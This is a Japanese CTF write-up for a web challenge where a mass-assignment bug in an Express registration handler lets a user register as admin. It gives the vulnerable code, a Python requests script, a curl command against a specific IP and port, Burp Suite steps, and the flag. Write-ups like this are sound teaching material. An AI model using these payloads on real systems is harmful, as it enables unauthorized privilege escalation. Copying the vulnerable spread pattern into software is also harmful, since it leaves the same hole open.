





# I wanna be the Admin

[English version](./README.md)

## 問題文

でもguestから始めよう!

## Writeup

### Overview

以下のコードからわかるとおり、このチャレンジの目的は `admin` ロールを持つユーザーとしてログインすることです。

```javascript
function auth(req, res, next) {
  const username = req.cookies.username;
  if (!username) return res.redirect("/login");

  const user = users.get(username);
  if (!user) return res.redirect("/login");

  req.user = user;
  next();
}
/* ... */
app.get("/", auth, (req, res) => {
  const { username, role, nickname } = req.user;

  res.send(`
    <h1>Hello ${username} (${nickname ?? "no nickname"})</h1>
    <p>role: ${role}</p>
    ${role === "admin" ? `<p><b>${FLAG}</b></p>` : ""}
    <a href="/logout">Logout</a>
  `);
});
```

ただし `POST /register` で作成できるユーザーはすべて `guest` ロールになります。

```javascript
app.post("/register", (req, res) => {
  const user_data = req.body;
  if (
    !user_data ||
    !user_data.username ||
    !user_data.password ||
    !/^[a-z0-9]+$/.test(user_data.username) ||
    (user_data.nickname && !/^[a-z0-9]+$/.test(user_data.nickname))
  )
    return res.send("invalid input");

  if (users.has(user_data.username)) {
    return res.send("user already exists");
  }

  users.set(user_data.username, {
    role: "guest",
    ...user_data,
  });

  res.cookie("username", user_data.username);
  res.redirect("/");
});
```

### 脆弱性

脆弱性は以下の部分にあります。

```javascript
users.set(user_data.username, {
  role: "guest",
  ...user_data,
});
```

`...`の部分スプレッド構文と呼ばれ、`user_data` のプロパティをすべてコピーしています。JavaScript では、同じプロパティ名が複数あるときは後に書かれたものが優先されます。そのため `user_data` に `role: "admin"` を含めて送ると、`guest` ではなく `admin` の値が使われます。

### `role` プロパティを送るには

しかし、`/register` ページのフォームには `username`、`password`、`nickname` の3つの項目しかないため、このフォームでは `role` プロパティを送信できません。

```html
<form method="POST">
  <input name="username" placeholder="username" required />
  <br />
  <input name="password" type="password" placeholder="password" required />
  <br />
  <input name="nickname" placeholder="nickname" />
  <br />
  <button>Register</button>
</form>
```

したがって、別の HTTP クライアントを使って `role` を含むデータを送る必要があります。

### オプション1: Python の `requests` モジュールを使う

Python では `requests` モジュールを使ってサーバーに HTTP リクエストを送り、レスポンスを確認できます。このモジュールはクッキー管理やリダイレクトの追従をブラウザと同じように自動で行います。ブラウザフォームと同じように送信するには `post` メソッドと `data` 引数を使ってください。

```python
import requests

response = requests.post("http://localhost:3000/register", data={
    "username": "user",
    "password": "password",
    "role": "admin"
})
print(response.text)
```

### オプション2: `curl` コマンドを使う

`curl` コマンドは Python より少し設定が必要に見えるかもしれません。

フォーム送信ではデフォルトで `application/x-www-form-urlencoded` エンコーディングが使われ、送信データは以下のようになります。

```
username=test&password=test
```

Chrome で確認する手順は次の通りです。
1. インスペクタを開く
2. 「Network」タブを開いて「Preserve log」を有効にする（ページが `/` にリダイレクトしたときにログが消えないようにします）
3. ユーザーを登録する
4. `register` リクエストを選択する
5. 「Payload」タブで「View source」をクリックする



`curl` でも同じ形式でデータを指定してください。また、このチャレンジでは以下のフラグが必要です。
* `-L` - リダイレクトを追従する
* `-c <filename>` - サーバーから送られてくるクッキーをファイルに保存する

最終的なコマンド例は以下のようになります。

```bash
curl -L -c ./cookiejar http://34.170.146.252:64344/register -d "username=user&password=password&role=admin"
```

### オプション3: Burp Suite を使う

Burp Suite は使用例の多いローカルプロキシツールです。ブラウザから送信されるリクエストを傍受し、パラメータを書き換えてサーバーへ転送できます。

1. [Burp Suite Community](https://portswigger.net/burp/communitydownload) をインストールして起動し、Temporary Project を開く
2. 「Target」タブに移動して「Open browser」を押す
3. 開いたブラウザでチャレンジサーバーにアクセスしてユーザーを登録する
4. 「Target」パネルにチャレンジサーバーへのリクエスト一覧が表示されるので、`POST /register` を右クリックして「Send to Repeater」

5. 「Repeater」タブに切り替えると、サーバーに送信された HTTP リクエストが表示されます

6. 歯車アイコンをクリックし、「Process cookies in redirections」を有効にして「Follow redirections」を「On-site only」にする

7. リクエスト本文を `username=user&password=password&role=admin` に書き換える
8. 「Send」ボタンをクリックするとフラグを含むレスポンスを確認できます！

## Flag

`Alpaca{This_is_badAss_mAss_Assignment}`
